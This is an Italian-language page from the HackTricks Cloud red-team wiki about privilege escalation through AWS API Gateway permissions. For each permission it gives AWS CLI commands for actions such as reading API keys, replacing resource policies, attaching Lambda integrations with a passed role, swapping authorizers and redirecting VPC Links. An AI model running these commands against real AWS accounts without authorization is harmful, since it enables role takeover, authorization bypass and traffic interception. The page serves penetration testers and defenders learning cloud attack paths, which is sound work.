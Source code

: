 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Con questo permesso puoi generare chiavi API delle API configurate (per regione).
```bash
aws --region <region> apigateway create-api-key
```
**Impatto Potenziale:** Non puoi eseguire privesc con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:GET`

Con questo permesso puoi ottenere le chiavi API generate delle API configurate (per regione).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impatto Potenziale:** Non puoi eseguire un privesc con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Con questi permessi è possibile modificare la policy delle risorse di un'API per darti accesso a chiamarla e abusare del potenziale accesso che l'API gateway potrebbe avere (come invocare una lambda vulnerabile).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impatto Potenziale:** Di solito, non sarai in grado di privesc direttamente con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con i permessi `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` può **aggiungere una nuova integrazione a un'API REST esistente di API Gateway con una funzione Lambda che ha un ruolo IAM associato**. L'attaccante può quindi **attivare la funzione Lambda per eseguire codice arbitrario e potenzialmente ottenere accesso alle risorse associate al ruolo IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Accesso alle risorse associate al ruolo IAM della funzione Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con i permessi `apigateway:UpdateAuthorizer` e `apigateway:CreateDeployment` può **modificare un authorizer API Gateway esistente** per bypassare i controlli di sicurezza o per eseguire codice arbitrario quando vengono effettuate richieste API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Bypassare i controlli di sicurezza, accesso non autorizzato alle risorse API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con il permesso `apigateway:UpdateVpcLink` può **modificare un VPC Link esistente per puntare a un diverso Network Load Balancer, potenzialmente reindirizzando il traffico API privato verso risorse non autorizzate o malevole**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impatto Potenziale**: Accesso non autorizzato a risorse API private, intercettazione o interruzione del traffico API.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
